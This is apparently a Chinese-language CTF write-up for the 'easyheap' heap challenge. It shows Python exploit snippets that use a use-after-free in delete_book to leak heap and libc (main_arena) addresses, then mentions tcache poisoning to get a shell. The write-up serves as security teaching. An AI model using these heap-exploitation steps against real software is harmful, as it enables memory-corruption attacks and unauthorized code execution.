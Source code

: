 # easyheap

這題的思路和 final 相似，只是 leak 方法會有一點變化，我的策略是一開始先 leak heap 的 base address，這部分很簡單，直接 add_book 在 delete_book，因為 delete_book 沒有把 pointer 清掉所以可以做到 UAF，就可以用 list_book 把存在 `index` 的 free chunk 內容給 leak 出來，算一下 offset 就可以得到 heap base：

```python
add_book(0, 0x10, b"dummy", 0xdeadbeef)
delete_book(0)
p.sendlineafter("--- happy bookstore ---", "4")
p.recvuntil("Index:\t")
heap_base = int(p.recvline(keepends=False)) - 0x10
```

接下來就是操作來 leak glibc 的 address，這邊的手法跟 final 也滿像的，首先先加入一些 book：

```python 
add_book(1, 0x10, b"dummy", 0xdeadbeef)
add_book(2, 0x10, b"dummy", 0xdeadbeef)
add_book(3, 0x410, b"A"*0x410, 0xdeadbeef)
add_book(4, 0x410, b"A"*0x410, 0xdeadbeef)
delete_book(1)
delete_book(2)
```

![image-20220110024503274](img/image-20220110024503274.png)

接下來拿 0x28 的大小時，`books[5]->name` 就會被只向 `books[1]`上，然後對 `books[1]->name` 寫入 chunk F 的位址，接著 free `books[3]`

```python
add_book(5, 0x28, p64(heap_base + 0x378), 0xdeadbeef)
delete_book(3)
```

![image-20220110024722455](img/image-20220110024722455.png)

接著透過 find book 就可以 print 出 main_arena 的位址，就可以得到 libc 的位址了：

```python
p.sendlineafter("--- happy bookstore ---", "5")
p.sendlineafter("Index: ", "1")
p.recvuntil("Name: ")
main_arena = int(p.recvline(keepends=False)[::-1].hex(), base=16)
```

接下來就操作 tcache poisoning，就可以拿到 shell 了：

![image-20220110025125648](img/image-20220110025125648.png)